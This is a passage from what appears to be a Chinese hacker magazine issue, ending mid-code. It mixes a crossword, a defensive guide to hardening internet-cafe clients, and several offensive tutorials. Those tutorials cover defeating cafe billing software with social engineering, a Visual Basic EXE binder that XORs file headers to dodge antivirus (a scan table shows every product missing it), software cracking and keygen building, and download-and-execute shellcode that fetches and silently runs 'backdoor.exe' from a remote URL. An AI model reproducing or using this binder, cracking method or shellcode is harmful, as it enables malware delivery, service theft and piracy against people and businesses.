（上半页为安全技术相关文章，含多段正文与对话，主要讨论目录访问权限、ASP/ASPX 环境、USERS 组权限、Temp 文件夹写入、ASP.NET Temporary ASP.NET Files 权限配置等问题。）

> “老弟啊！总算是完成了，我这几天可是呕心沥血，你啥时候给我补补啊？”

“行啊！改天我一定请你，先说说是怎么解决的？”

“……说来话长，整个过程我已整理成文，一份寄到《黑客手册》，一份寄到你邮箱，兄弟！不请吃饭无所谓，关键是文章一定要看啊！”

# 黑客填字游戏

- 1. 词语分横向和竖向，横向从左至右，纵向从上至下。
- 2. 许多词语中某个字母或汉字会和其他词语共用。
- 3. 可根据题目提示的去向，综合推理作答。
- 4. 答案分中文和英文两种，英文多为常见缩写。
- 5. 遇到中文词语时，提示后会有注释。
- 6. 每个提示后有难度提示（星级）。

填字方格（编号 1–28）

- **横向：**
- 1. 许多软件用来存储配置信息文件的后缀名。
- 2. 在命令行中，用来查看网络配置的命令。
- 3. 侵害老百姓时很著名的一种盗取 QQ 密码软件简称。
- 4. 超级好用的汇编级分析调试器（作者 Oley Yuschuk）。
- 5. 一个由 SUN 公司开发和发布的操作系统（UNIX 分支）。
- 7. 游戏里我们一般把血值简称为什么？
- 8. 一种开发语言，比较容易上手。
- 9. 动态主机配置协议简称。
- 11. 一个著名公司的名称，有它发起的网络认证考试。
- 14. 一个与缓冲区溢出有关的名词英文。
- 15. TCP 协议中确认响应工作简称。
- 16. 微软用来解释一般脚本文件的程序名称。
- 17. 一种非常常见的壳的名称。
- 18. 网卡物理地址简称。
- 19. 一个可以为 Win32 应用程序提供访问网络底层能力驱动程序的简称。
- 20. 无线网络技术简称。
- 21. 由 IETF 正式制定的开放性 IP 安全标准。
- 23. 工商管理硕士简称。
- 24. 一种网络协议和服务软件，通过它可加密传输数据。
- 25. 引导协议简称，与题目 10 关系很大。
- 26. IP 包生存时间简称。
- 27. 一种非常流行的 SQL 注入工具。
- 28. 网络管理协议简称。

- **纵向：**
- 5. 服务控制管理器简称。
- 6. 一个包含了 API 函数等开发资料的工具包简称。
- 10. 一种现在非常流行的网吧管理系统。
- 12. 微软公司推出的企业级防火墙产品简称。
- 13. 一种网络代理协议简称。
- 22. 由 Netscape 公司开发的安全 Internet 数据安全协议（版本 3.0），广泛用于 Web 浏览器与服务器之间的身份认证和加密传输。


金秋十月，相信大家一定在十一长假中玩得很愉快吧。再次投入学习生活的我还真有一点不习惯呢，上课的时候还在想网吧里一幕一幕的情景……

某日，灵鸽剑客和 magic dog 在网吧四处张望，准备破解网吧管理程序来免费上网。网吧的网管发现了他们的行动，可是没有办法补好漏洞，于是请来了疯狗和 yacou 给自己的网吧配置得更安全一点，顺便学习一下如何反击网吧黑客。网管因为基础薄弱，没有看懂他们是如何操作的，就让他们把每一步过程写下来，以便日后学习。想知道他们是如何保护网吧和入侵网吧的吗？快来看本期的泡泡吧，收纳给大家准备好了！

# 实战网吧攻关系统

# 实战网吧收费系统

magic dog 邓欢

良心发现的土著校长终于放我们假了，那个激动啊！中午扒完饭就直奔本县的“电子阅览室”，去干什么？当然是 Surfing Internet 啦。“电子阅览室”只是个头衔，里面不论是营业方式还是计算机系统、软件的种类都大致和外面的网吧差不多（唯一不同的是不让吸烟，郁闷……）。

上了一会儿，突发心志想试试能否突破计费软件的限制，以便免费上网。其实我很早就在这里上网，印象中管理员设置得并不怎么好，实现的可能性很大。简单介绍下这里的大致情况：Win2K + SP4 操作系统，计费软件用的是“美萍”（至于什么版本就不清楚了，只记得当初 admin 在我面前吹嘘他的软件如何的好），单机版还原精灵。

- 上网时的限制：不能打开多于 5 个以上的窗口，隐藏了 C 盘，不能浏览大部分文件夹里的内容，具体情况就是双击后没任何反应；
- 但是有时可以打开一些系统文件夹，如 C:\、Windows；
- 先以为是机子有毛病，结果试了几台都是这样；
- 但我还未听说过什么软件会有此类限制，无语……

禁止使用注册表编辑器和任务管理器。说到这里难免会有一种做贼心虚的感觉。

我们先来整理一下思路：先 KILL 掉相关进程→修改启动项→删除主程序→修改还原精灵（转存资料）。

OK，说干就干。因为不能用任务管理器，我就花 CMD 下 PK 搞定。pk——查看进程。通过名字和路径发现可疑进程“smenu.exe”，运行 pk smenu.exe 这样就 Kill 掉这个进程了，看看右下角的“美萍”系统托盘图标不见了（如图1、2），图1是正常时显示的图标，图2中图标已经不见。


老实说现在我还不敢肯定是不是免费上网，我在另一台计算机上用账号、密码登录，却显示相同用户不能重复登录，怎么回事？

做了几次实验后，个人理解为：当我们登录后，本机就会向服务器发送数据，服务器接收到后便开始计时，这时与本机没有联系了（我是指在计时上，主机还是可以控制我们的哦）；当我们给账户下机时本机又发送请求到服务器，服务器停止计时。

现在我们可以使用注册表编辑器和任务管理器了。跑到注册表启动项里见到“smenu.exe”，我删。由于不知道“美萍”都通过了哪些方式启动，为保险起见进入 C 盘根目录。虽然禁止了 C 盘，但是在浏览器里输入“C:\”回车，却成功进入（各位说这个设置是不是垃圾得很？）！看到文件夹 smenu，双击，发现可以进入哦，选中全部文件再删，突然跳出一个提示框说明删“shield.dll”时被系统拒绝，因为它正在运行中，再一看其他程序都被删除了，主程序都完了，删不删这个东西都无关紧要了。

这里有朋友可能就要问了，为什么不禁止“shield.dll”的进程再删除，因为“shield.dll”是动态链接库文件，运行时是不会显示在进程列表里的。呵呵，这也是 DLL 木马（后门）的特点之一。

到这里计费这关是搞定了，重新启动计算机，但是有还原精灵守着呢，我记得以前听到过管理员输入的密码是“12345678”默认密码哦，于是不管侥幸心理在 DOS 下按“HOME”键进入还原精灵，输入密码……不正确！郁闷，只好来硬的了，我先用以前百试不爽的“还原精灵2.1ST密码读取程序”试试，不行。程序探测不到还原精灵的密码输入窗口了。看来是升级版本的还原精灵。于是网上找，N 久还真找到了一个（其实我们也可以用 WINHEX 读内存的，前提是还原程序在内存里明文存放密码），该程序针对 2000 和 XP 的还原精灵网络版破解，但是我试了下，单机的一样也行（如图3）。


物理硬盘默认数为 1，一般网吧也是一个硬盘。使用方法和以前一样，打开还原精灵修改指令界面，然后点确定出现要求输入密码的对话框，这时点击“读取还原精灵密码”，真正的密码就会出现在上面的“密码”栏了，密码为：admin。

打开还原精灵输入试试（如图4），竟然成功了！别激动，重新启动系统，还原精灵开始更新数据，两分钟后进入系统，激动的时刻心都提到嗓子眼了，闷啊，没任何限制，只是弹了个警告框提示找不到“smenu.exe”等程序，当然咯，我删了嘛。


> Magicdog：哎呀，网管我死机了，关掉它在另一台计算机上登录，为什么显示相同用户不能同时登录呢？  
> 网管：你没退出当然登录不起了。  
> Magicdog：唉，那不好意思啊，我死机了请你帮我停掉 XXX（我的上网账号），谢谢了啊。

然后就看见网管一脸不耐烦、极不情愿地在“美萍”里找到我的账号停止了。这时我再打开先前我破解的那台计算机，漫长的等待之后终于进入系统，和先前一样，除了弹出个提示文件找不到的警告框什么都没有，说明我们的目的已经达到了。

既然目的达到，我也先闪了，“电子阅览室”很小，因做手脚而进化成“熊猫晶晶”的几率是很大的哦。好了就这样，Bye-Bye！

> 【本文中涉及到的工具 pk.exe 和还原精灵密码破解工具在光盘中有提供】

编辑说明：magic dog 在这篇文章中给我们介绍了他是如何关闭，且剔除利用 DLL 插入技术的“美萍”网吧管理程序，最后达到了免费上网的目的。文章中还利用了社会工程学让网管帮你停止计费，看来大家要好好学习社会工程学了！

## 网吧安全系列

## 之“吧管必看”

在以前的手册中，我们请来精通网吧的朋友给大家介绍了一些破解技巧。可是这样一来，让吧管们很是头疼。所以就有吧管和我们讲，他们也想学习一下怎么保护自己的网吧，以便更好地为在自己网吧上网的客户服务。

从本期开始，泡泡吧吧栏目将陆续给吧管们介绍相关网吧维护技巧。另外，也欢迎大家能写出自己维护网吧的经验，给我们投稿，然后和大家一起交流。

强调注释：吧管——网吧管理员

## 网吧客户机安全配置

疯狗[B.C.T]

如今的网吧，在环境、配置还有速度上都比以前有了翻天覆地的变化，客户也越来越多。在网吧管理中，由于上网人群复杂，管理人员往往要采取一些措施来对用户使用权限进行限制，防止系统被破坏、恶意攻击、窃密等事情的发生。一般的网管人员首选网吧管理程序、防火墙、杀毒软件等第三方程序来达到保证安全的目的，相关程序很多，笔者就不一一介绍了。但是这样做很占系统资源，对用户的游戏、聊天、看电影等娱乐活动造成很大影响。下面给大家介绍下配置客户机系统本身来满足安全底线并对系统进行优化，保证客户机使用性能，相信再配上第三方程序的话，网吧总体效率就有了更大的提高！

### 一、网吧操作系统

这个是很重要的，系统作为第一步，也是安全的基本保障，我们当然要仔细选择。Windows 98？这个系统的脆弱性我不想说什么了，光是安全就很让人头疼，大名鼎鼎的共享漏洞、\con\con 2次设备名称解析漏洞、ICMP风暴蓝屏攻击……Windows 2000？这个已经被微软抛弃的操作系统，它的安全性以后怎么样谁也说不清，如果补丁没有打全，存在一些远程溢出的“坑”，精心构造一个BAT就可以使整个网吧线路瘫痪。何况2000对游戏的支持还不是很好，所以放弃吧。还剩下Windows XP与Windows 2003，我想不用我多说了吧，2003复杂的配置与资源利用都不是客户机所合适的，所以最好的网吧客户机操作系统就应该是Windows XP（没有网吧用Linux吧，汗~~）。自从XP SP2问世以来，已用事实证明了它的安全效果，这是无可非议的，加上它的稳定，对娱乐项目的支持也很优秀，所以XP就成了网吧客户机首选。网吧服务器本人建议使用Windows 2003，虽说Linux做服务器很完美，但是你敢保证以你服务器为圆心，半径为5公里内没有Linux高手吗？有的话，如果这个家伙那天心情不好发点脾气，那……你的损失就是以秒计算，而且你暂时还没法解决。

### 二、系统安全性与优化

首先我们不能给上网者用Administrator账号，给一个User就足够了。客户机的安装要对操作系统和游戏系统进行分离，对游戏文件和注册表文件分离。系统分区推荐NTFS来保证安全，游戏娱乐分区推荐FAT32保证性能；加强补丁更新，优化注册表，禁止使用IE浏览器，禁止访问注册表编辑器，对注册表访问权限进行严格控制。可以点击“开始→运行”并输入“regedt32”来运行注册表编辑器，然后点“编辑→权限”，给指定用户权限，不需要的停掉（如图1）。

禁止使用IE的Internet选项，用输入“C:\”、“D:\”来使用IE跳进本地硬盘，这种方法算是比较古老的了。我们只要在“瑞星安全卫士”设置栏中，使用“管理”选项卡的“选项”设置，将“禁止IE从地址栏访问硬盘资源”复选框选中即可。

还有很多方法来跳系统盘，比如打开一个没有关联的文件，Windows会让我们选择打开方式（如图2）。

详细说下，有的人直接把C盘的权限锁死，这是万万不可的，因为很多常用程序的默认安装目录是在C:\Program Files（如果你的程序都安装在别的磁盘，就可以跳过这里了，改变程序默认安装目录也是很重要的）。整个C盘的权限锁死的话，这些程序也就无法正常运行了，所以我们只对敏感目录进行限制，比如C:\Windows这个目录，我们可以把User的权限全部去掉（如图4）。

点击浏览后就可以对本地限制的硬盘进行操作，注意图中我跳到了C盘（如图3）。跳进系统盘后的危害不再多说了吧，还可以用WinRAR的更改驱动器来跳，总之方法多多，所以还是给系统盘加访问与操作权限吧，发挥一下NTFS的优势。这点要详细说下，有的人直接把C盘的权限锁死，这是万万不可的。

这个是普通用户的权限了，管理员可以全开（在你密码强壮的情况下）。至于C:\Program Files，给个“读取并运行”就可以了。

系统设置为双用户登录：一用户来做安全权限设置与管理，该账号注意密码强度；另一用户进行普通操作，设置好权限。同时隐藏文件，启用还原程序（一定要硬件还原设备，还原精灵破解方法很多，和没装一样），安全权限设置为只读，不设为完全控制，防对游戏盘删除、拖拽、改名，防任意安装文件。还可以禁止用户使用任务管理器（如图5）。

另外，防局域网IP攻击也是很重要的，我们可以用Windows本地安全策略过滤135、139、443等危险端口，下面我一步一步教大家操作。

- 第一步：点击“开始”菜单→设置→控制面板→管理工具，双击打开“本地安全策略”，选中“IP安全策略，在本地计算机”。在右边窗格的空白位置右击鼠标，弹出快捷菜单，选择“创建IP安全策略”，于是弹出一个向导。在向导中点击“下一步”按钮，为新的安全策略命名；再按“下一步”，则显示“安全通信请求”画面，在画面上把“激活默认响应规则”左边的钩去掉，点击“完成”按钮，就创建了一个新的IP安全策略。
- 第二步：右击该IP安全策略，在“属性”对话框中，把“使用添加向导”左边的钩去掉，然后单击“添加”按钮添加新的规则，随后弹出“新规则属性”对话框，在画面上点击“添加”按钮，弹出IP筛选器列表窗口；在列表中，首先把“使用添加向导”左边的钩去掉，然后再点击右边的“添加”按钮添加新的筛选器（如图6）。
- 第三步：进入“筛选器属性”对话框，首先看到的是寻址，源地址选“任何IP地址”，目标地址选“我的IP地址”，点击“协议”选项卡，在“选择协议类型”的下拉列表中选择“TCP”，然后在“到此端口”下的文本框中输入“135”，点击“确定”按钮，这样就添加了一个屏蔽TCP 135（RPC）端口的筛选器（如图7）。
- 第四步：在“新规则属性”对话框中，选择“新IP筛选器列表”，然后点击其左边的圆圈加一个点，表示已经激活；最后点击“筛选器操作”选项卡。在“筛选器操作”选项卡中，把“使用添加向导”左边的钩去掉，点击“添加”按钮，添加“阻止”操作；在“新筛选器操作属性”的“安全措施”选项卡中，选择“阻止”，然后点击“确定”按钮（如图8）。
- 第五步：进入“新规则属性”对话框，点击“新筛选器操作”，其左边的圆圈会加一个点，表示已经激活，点击“关闭”按钮，关闭对话框；最后回到“新IP安全策略属性”对话框，在“新的IP筛选器列表”左边打钩，按“确定”按钮关闭对话框。在“本地安全策略”窗口，用鼠标右击新添加的IP安全策略，然后选择“指派”（如图9）。

最后重新启动，就可以屏蔽外界对本机135端口的访问了。然后重复以上步骤分别添加TCP 137、139、445端口和UDP 135、139、445端口的筛选器。关闭没必要的服务，这样不仅使安全性得到保障，系统性能也得到大大的提高（光盘内附有服务优化建议列表）。优化启动速度，删除没必要的启动项，运行msconfig，选择“启动”，然后根据需要来删减。

### 三、更新&维护

可以使用网管软件采用点对点限流方式更新Windows安全补丁、杀毒软件病毒库、游戏升级补丁、最新外挂、音乐等，比传统更新速度快3~5倍。不会像广播方式产生网络风暴，更新时网络上计算机与正在更新的机器都可以正常玩游戏。可以选择立即更新或者计算机下次启动时更新，可以使用同步更新功能清理垃圾与防木马等，自动均衡网络速度，提高效率和稳定性。

【本文中涉及到的服务优化建议列表在光盘中有提供】

编辑点评：疯狗GG给我们带来的这篇文章详细介绍了如何配置安全的网吧客户端。我想网吧管理人员如果能把网吧客户机配置得相对安全一点，不仅我们上网者能有安全感，网吧业主也会在上网者心中树立良好形象，所以应该好好看看哦。

# 雕虫小技

**Regsvr32也反毒**

例如：用Radmin的频率很高，有时候我们想用屏幕录像机录对方在我机器上的操作，则可以首先用`regsvr32 /u`这个参数来注销RADMIN的DLL文件，这样一来RADMIN就无法正常运行。等把屏幕录像设置好后，再用`regsvr32 /i`这个参数重新注册RADMIN的DLL，就等对方上门了，说不定能从录像中学到一些技巧呢。

**关闭自动播放功能**

该功能由于可以自动运行相关驱动器上的指定程序，导致一些病毒常利用这个地方做文章。建议关闭它，具体方法：首先打开组策略编辑器（选择“开始”→“运行”，输入`gpedit.msc`）。然后选择“计算机配置”→“管理模板”→“系统”→“关闭自动播放”，在弹出的“关闭自动播放属性”窗口中选择“已启用”，并且在“关闭自动播放”中选择“所有驱动器”即可。

## 免杀EXE捆绑器自己造

现在各种安全网站和相关杂志上随处可见EXE文件捆绑器的踪迹，相关代码网上也有很多，但是程序一旦流传开，势必会被杀毒或检测软件盯上，成为其“腹”中之物，那如何是好呢？唯一的方法就是做一个世界上独一无二的捆绑器留着自己用。今天就给大家讲一讲这捆绑器的原理及相关知识，并举例说明。

首先说一下原理，虽然其他文章说得很详细，但还是有必要，以便大家能很好地理解下文的代码。顾名思义，EXE文件捆绑就是将多个EXE文件捆绑成一个，捆绑后仍能在执行时分别独立运行。再来看实现方法，只要将多个文件连接成一个文件，在其中加入标识符或记录各个文件的大小，这样就可以使捆绑后的文件仍然能正确分解。

那么捆绑后如何执行呢？其实只要写一个文件执行的程序，也可以是捆绑程序本身，只要初始化时加以判断：如果是已捆绑有文件就执行调用部分，反之就执行捆绑部分，然后将其捆绑进去，在分解后再调用另外的被捆绑程序即可。

| 类名 | （名称） | Caption | Enabled |
|---|---|---|---|
| CommonDialog | CDLog |  |  |
| CommandButton | cmdChooseOne | 执行文件1 | True |
| CommandButton | cmdChooseTwo | 执行文件2 | True |
| CommandButton | cmdDestination | 提交件 | True |
| CommandButton | cmdBind | 捆绑 | True |
| CommandButton | cmdCancel | 退出 | False |
| TextBox | txtChooseOne |  |  |
| TextBox | txtChooseTwo |  |  |
| TextBox | txtDestination |  |  |

## 程序初始化

```vb
Private Sub Form_Load()
    ' 初始化捆绑文件的全局变量
    FileName1 = "" : FileName2 = ""
    FileDestination = "" : StringPlace = 0

    ' 定义读取文件所需变量
    Dim FileContent() As Byte
    Dim FileNum As Integer

    FileNum = FreeFile()
    Open FilePath + App.EXEName + ".exe" For Binary As FileNum
        ReDim FileContent(FileLen(FilePath + App.EXEName + ".exe") - 1)
        Get FileNum, , FileContent
    Close FileNum

    StringPlace = InStrRev(StrConv(FileContent, vbUnicode), "VbExeFileBind")
    If StringPlace <> 0 Then
        Debug.Print "此文件已经捆绑过！"
        Call SplitFileAndRun(FileContent)
        mainfrm.Visible = False
        End
    Else
        Debug.Print "此文件未被捆绑！"
        mainfrm.Visible = True
    End If
End Sub
```

## 捆绑、修改文件

其实也很简单，先将捆绑程序自身（即本程序）用二进制方式打开，读入文件内容并写入一个新文件，再读入捆绑文件一，写在刚建立的文件之后，随后读入捆绑文件二，写在最后，这样文件捆绑就完成了，这个新文件就是捆绑后的文件。

最后把捆绑标志“VbExeFileBind”及原文件名和原文件大小写入，并在分解时取回对应位置。对于EXE文件头修改，这里使用异或（XOR），因为其处理速度较快，且经过XOR处理后的值再次XOR可恢复。

> 什么是异或？它是一种逻辑运算，按位比较，不同为1，相同为0。

## 界面设计

## 分解、恢复并执行

这是本文的核心。方法是查找捆绑文件时写入的标志“VbExeFileBind”，及原文件名和原文件大小，这样在分解时就知道了捆绑文件的相关信息。对于分解来说就很简单了。根据第一个文件信息，读出本程序的内容，并写入新文件，随后根据第二个文件信息，读出捆绑文件一并写入新文件，捆绑文件二也是一样的操作，是不是很简单呢！上面对两个被捆绑的文件头做了修改，这里使用XOR处理，将其恢复。在分解完毕后就可以调用了，这里用到的是“WinExec”，我想有人一定要问为什么不用VB自身提供的“Shell”呢，因为它调用的方法及方式比较弱。

### WinExec API的使用方法

> 【声明】WinExec Lib "Kernel32" Alias "WinExec" (ByVal lpCmdLine As String, ByVal nCmdShow As Long) As Long

【说明】运行指定的程序

【返回值】Long，返回32表示成功。

【参数表】
- lpCmdLine：String，要执行的命令行
- nCmdShow：Long，定义了以怎样的形式启动程序的常量值。

### 代码如下：

```vb
Private Declare Function WinExec Lib "kernel32" (ByVal lpCmdLine As String, ByVal nCmdShow As Long) As Long
Const SW_SHOWNORMAL = 1
Dim StringPlace As Long
Sub SplitFileAndRun(FileContent() As Byte)
    ' ...（后续为分解与执行相关 VB 代码）
End Sub
```

```vb
Private Sub cmdBind_Click()
    On Error GoTo ERR
    ' ...（文件存在判断、读取文件、XOR 处理、写入捆绑文件等）
ERR:
    On Error Resume Next
End Sub
```

```vb
Open FileName2 For Binary As FileNum
ReDim FileContent3(FileLen(FileName2) - 1)
Get FileNum, , FileContent3
For iii = 1 To 200 Step 1
    Sssss = FileContent3(iii - 1) Xor 99
    FileContent3(iii - 1) = Sssss
Next
Close FileNum
' ...（写入目标文件与标志信息）
```

```vb
' 读取被捆绑的第一个文件
FileNum = FreeFile()
Open FilePath + App.EXEName + ".exe" For Binary As FileNum
ReDim FileContent1(Val(FN(1, 1)) - 1)
Get FileNum, Val(FN(0, 1)) + 4, FileContent1

' 循环恢复文件头的前200字节
For iiii = 1 To 200 Step 1
    Mmmmm = CByte(FileContent1(iiii - 1)) Xor 99
    FileContent1(iiii - 1) = Mmmmm
Next
Close #FileNum

If Dir(FN(1, 0) & ".exe") <> "" Then Kill FN(1, 0) & ".exe"

FileNum = FreeFile()
Open FN(1, 0) & ".exe" For Binary As FileNum
Put #FileNum, , FileContent1
Close #FileNum
```

```vb
' 读取被捆绑的第二个文件
FileNum = FreeFile()
Open FilePath + App.EXEName + ".exe" For Binary As FileNum
ReDim FileContent1(Val(FN(2, 1)) - 1)
Get FileNum, Val(FN(0, 1)) + Val(FN(1, 1)) + 4, FileContent1

For iiii = 1 To 200 Step 1
    Mmmmm = CByte(FileContent1(iiii - 1)) Xor 99
    FileContent1(iiii - 1) = Mmmmm
Next
Close #FileNum

If Dir(FN(2, 0)) <> "" Then Kill FN(2, 0)

FileNum = FreeFile()
Open FN(2, 0) For Binary As FileNum
Put #FileNum, , FileContent1
Close #FileNum

If Dir(FilePath & FN(1, 0) & ".exe") <> "" Then
    Call WinExec(FilePath & FN(1, 0) & ".exe", SW_SHOWNORMAL)
Else
    Debug.Print FN(1, 0) & ".exe 不存在!"
End If

If Dir(FilePath & FN(2, 0)) <> "" Then
    Call WinExec(FilePath & FN(2, 0), SW_SHOWNORMAL)
Else
    Debug.Print FN(2, 0) & " 不存在!"
End If
End Sub
```

## 测试成果

执行本程序选择EXE文件进行捆绑，将捆绑后产生的文件交给杀毒或检测软件处理。测试结果显示，到目前为止不能被任何软件查杀。

最后给大家一点躲避杀毒软件的提示。如果有一个木马已经能被查出，可以通过取非（NOT）或异或（XOR）处理而不被查出，也可以自己写一个专门的修改、恢复程序。

> 【本文所涉及的FileBind源文件在光盘中有收录】

本文不同于网上流行的捆绑器，对于EXE文件头修改后能避过很多杀毒软件和专业检测软件的“法眼”。关于程序的捆绑还可以用“流”的方式，这方面的资料网上也比较多。

| Antivirus | Version | Update | Result |
|---|---|---|---|
| AntiVir | 6.31.1.0 | 07.29.2005 | no virus found |
| AVG | 718 | 07.28.2005 | no virus found |
| ... | ... | ... | no virus found |

# 雕虫小技 [SCT] &[AVT]

对非法修改注册表说不

手工操作可以通过regedt32（Windows 2000系统，在菜单“安全”下的“权限”）或regedit（Windows 2003/XP，在“编辑”菜单下的“权限”）。

- 1. 设置注册表自启动项为Everyone只读（Run、RunOnce、RunService），防止木马、病毒通过自启动项目启动；
- 2. 设置.txt、.com、.exe、.inf、.ini、.bat等文件关联为Everyone只读，防止木马、病毒通过文件关联启动；
- 3. 设置注册表`HKLM\SYSTEM\CurrentControlSet\Services`为Everyone只读，防止木马、病毒以“服务”方式启动；

如果菜鸟看不懂，建议建立一个Users组的用户，这样一般就不用设置上面的权限了。

菜鸟，在小编的印象中老浮现出这样的画面——那个会飞的、憨憨的、胖胖的QQ企鹅表情。嘿嘿，当只这样的菜鸟应该是蛮可爱的吧？不过，偶觉得要当一只菜鸟的菜鸟还应该具备这样一种精神——不怕出丑，要像《东方夜谭》里面的小葵那样坚韧。扯远了，本期的菜鸟学破解也到了介绍如何制作注册机这一步了。当然，为了让诸“小菜”们也能动手，制作文件补丁注册机，咱们主要就讲讲思路，大家一定别忘了要亲自制作一个破解补丁啊！

# 鸟儿学破解之注册机制作

风泽 [E.S.T]

经过前面几期的实战，相信大家的破解技术有所进展吧。既然我们有了破解基础，就可以自己动手，免费享受一些软件，还可以与好朋友一起分享呢。今天我们就来介绍注册机的制作。由于是菜鸟，我们就要用最简单的方法来解决自己的菜鸟问题。Let's Go！首先来介绍一下我们今天要用到的重点工具——KEYMAKE（图1，刘键焱大牛的作品）。今天我们就利用这个工具制作出内存注册机和文件补丁注册机。其实这个工具功能强大着呢，想学更多的话就看软件自带的帮助吧。

图1

- 练习目标：系列社区卫生服务系统（汉化简繁版）
- 练习内容：内存注册机、文件补丁注册机
- 需要工具：W32Dasm、OllyDbg、PEiD、UltraEdit-32、KEYMAKE

## 一、制作内存注册机

安装好绿洲后，老步骤，用 PEiD 先查一下软件是否加了壳（图2）。

图2

此软件没有加壳，而且是用 Delphi 写的（因为我们菜嘛，这个就是我选择它的理由 ^_^）。现在我们再用 W32Dasm 打开绿洲，进行字符串数据参考。在窗口的末尾我们找到了想看到的东西（图3）。

图3

```asm
00494840 E8CBF6F6FF      call 00403F10   // 计算注册码
00494845 0F859C000000    jne  004948E7   // 关键跳转，注册码正确就不跳
0049484B 8B45FC          mov  eax,dword ptr [ebp-04]
...
00494862 BAE0494900      mov  edx,004949E0
...
00494891 E89A18FDFF      call 00466130
...
00494896 B8F0494900      mov  eax,004949F0
004949F0 ...
004948E5 EB14            jmp  004948FB
```

双击注册码来到关键位置，看到如下代码；注意：“//”后是代码注释。

```asm
Conditional Jump at Address 00494845(C)

* Possible StringData Ref from Code Obj -> "注册码不对，请仔细检查‘序列号’和‘注册码’输入是否正确（注意大小写）"

004948E7 B8344A4900      mov eax,00494A34   // 注册码错误跳到这里
004948EC E8A3A4FBFF      call 0044ED94
004948F1 33C0            xor eax,eax
```

很明显是一个经典的模式。现在我们拿出 OllyDbg 跟踪一下，看能不能得到想要的。直接用 OllyDbg 打开文件，用快捷键 Ctrl+G 输入 00494840 来到这个关键的 CALL，按 F2 下个断点，现在就可以直接 F9 运行了。程序注册界面就直接弹出来，我们按照它的要求来注册一下（图4）。

图4

填好后直接提交，看看 OllyDbg 的寄存器吧，别不相信自己的眼睛，那个就是注册码哟（图5）！既然已经知道在哪里会出现注册码，那我们就好办事了，拿出今天的重型武器 KEYMAKE 吧。运行后，在菜单的其他选项中选择内存注册机，按照图6所示填写即可。设置好后将自己的一些信息添加整理一下，生成就可以完成内存注册机的制作了，来看看我做的（图7）。看到了吗？提示了注册机使用者，而前17位就是注册码了。到这里，内存注册机就简单介绍完了。

图5

> “黎明，在某个地方的一块草地上，这里隐藏着一个昆虫的世界……对于昆虫来说，最小的石块也可以变成山脉，最小的水坑也像海洋那样广大。在这里，时间以另外的方式流淌：一小时就是一天；一天就是一季，一季就是一生。为了了解这个世界，我们应当学会安静地倾听它们的呢喃。”

这是制作《鸟的迁徙》的法国导演雅克·贝汉历时十五年拍摄的《昆虫世界》的开场语。同样，看书也跟看电影有异曲同工之妙，除了能了解作者的思想，你是否能从书中提炼并总结出自己的意思呢？我想，这可能就是读者笔记的重要性了吧？

# 《Q版黑客——缓冲区溢出教程》学习笔记之三

# Win32 ShellCode 实现文件下载、上传与执行（上）

scuhkr / 古开元

学习 WW0830 的《Q版黑客——缓冲区溢出教程》（以下简称 Q 书）那么久了，相信不少读者对缓冲区溢出的基础知识和原理都已经掌握得差不多了。但是，对 Win32 ShellCode 编写部分，读者们反映太抽象了，不好理解。本文尝试从常用功能入手，分析 ShellCode 编写的全过程。

## 一、通过 HTTP 下载文件并执行

很多后门都实现了从指定的 Web 站点下载一个攻击者事先放好的可执行文件的功能……就先来看 MSDN 上怎么描述的吧。

```c
HRESULT URLDownloadToFile(
    LPUNKNOWN pCaller,
    LPCTSTR pszURL,
    LPCTSTR szFileName,
    DWORD dwReserved,
    LPBINDSTATUSCALLBACK lpfnCB
);
```

- 第2个参数 `pszURL` 为下载文件的 URL 地址。
- 第3个参数 `szFileName` 为下载保存的文件名，可指定目录（如 `C:\windows\system32\backdoor.exe`）。

可执行程序被下载后，那就该执行了。我们可以用 Win32 API 函数 CreateProcess 来实现……在此本文采用 WinExec 函数。

```c
UINT WinExec(
    LPCSTR lpCmdLine,
    UINT uCmdShow
);
```

第一个参数 `lpCmdLine` 是要执行的程序名；第二个参数 `uCmdShow` 表示显示方式，这里用 `SW_HIDE`。

```c
#include <windows.h>
#pragma comment(lib, "urlmon.lib")
void main()
{
    URLDownloadToFile(NULL, "http://ww.hackerxfiles.net/", "backdoor.exe", 0, NULL);
    WinExec("backdoor.exe", SW_HIDE);
    ExitProcess(0);
}
```

千万不要惊讶，真的就是这么简单。下面给出 ShellCode 的汇编代码……

### 1. 定位

```asm
jmp Data
Start:
    pop edi

Data:
    call Start
    db "backdoor.exe",0x00
    db "http://www.nohack.cn/shellcode.exe",0x00
```

说明：  
(1) 几乎所有的 ShellCode 定位技术都用到了这样的模式，通过 `jmp Data` 跳到 `call Start` 去，`call Start` 相当于把字符串首地址压栈，再跳回 `Start`。  
(2) `pop edi` 的作用就是把 "backdoor.exe" 的地址弹到 `edi`，后续可作为参数传给 `URLDownloadToFileA()`。

```asm
push ["backdoor.exe"]
jmp Start
```

### 2. 查找 kernel32.dll 基地址

文中说明在多种方式中，基于 PEB 的方式在 ShellCode 中更常用，代码更短，流程为：通过 `fs:[0x30]` 取 PEB，进入 LDR 链表，最终定位到 `kernel32.dll` 模块基址。

- `FS` 寄存器 -> `TEB` 结构
- `TEB + 0x30` -> `PEB` 结构
- `PEB + 0x0c` -> `PEB_LDR_DATA`
- `PEB_LDR_DATA + 0x1c` -> `InInitOrderModuleList`
- `ntdll.dll + 0x08` -> `kernel32.dll`

```asm
FindKernel32:
    push ebp
    push esi
    mov eax, [fs:0x30]
    mov eax, [eax + 0x0c]
    mov esi, [eax + 0x1c]
    lodsd
    mov ebp, [eax + 0x08]
    mov eax, ebp
    pop esi
    pop ebp
    ret
```

### 3. 查找 GetProcAddress() 函数地址

根据导出表结构整理查找流程：先取 PE 头，再取数据目录中的导出表，结合 `AddressOfNames`、`AddressOfNameOrdinals`、`AddressOfFunctions` 完成函数地址解析。

- `kernel32.dll + 0x3c` -> PE 头偏移
- `kernel32.dll + 0x3c + 0x78` -> 导出表（Export Table）
- 导出表关键字段：
  - `+0x1c` AddressOfFunctions
  - `+0x20` AddressOfNames
  - `+0x24` AddressOfNameOrdinals
- 由 Name 索引到 Ordinal，再索引到 Functions
- 得到 `GetProcAddress` 实际地址

```asm
FindFuncAddress:
    push ebx
    push ebp
    push esi
    push edi
    ...
```

```asm
mov ebp, [esp + 24]
mov eax, [ebp + 0x3c]
mov edx, [ebp + eax + 120]
add edx, ebp
mov ecx, [edx + 24]
mov ebx, [edx + 32]
add ebx, ebp

LoopFindFunc:
    jecxz FuncNotFound
    dec ecx
    mov esi, [ebx + ecx * 4]
    add esi, ebp
    xor edi, edi
    cld
```

### 4. Hash 函数名

为节省空间并避免明文 API 名称，ShellCode 常用 Hash 方式查找函数。

```c
